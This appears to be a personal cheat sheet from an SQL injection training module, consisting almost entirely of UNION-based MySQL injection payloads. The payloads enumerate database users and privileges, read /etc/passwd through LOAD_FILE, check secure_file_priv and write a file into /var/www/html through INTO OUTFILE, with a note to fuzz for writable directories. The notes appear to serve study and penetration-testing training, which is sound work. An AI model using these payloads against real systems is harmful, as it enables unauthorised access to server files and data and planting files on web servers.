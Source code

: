 ![[Sql_Injection_Fundamentals_Module_Cheat_Sheet.pdf]]

## Read Files
### Find current user
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

### Find super priv
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

### Find multiple rights
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

### Read File
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

## Write Files
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

secure_file_priv must be empty

### Write Location
```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Should be fuzzed for whitelisted directory 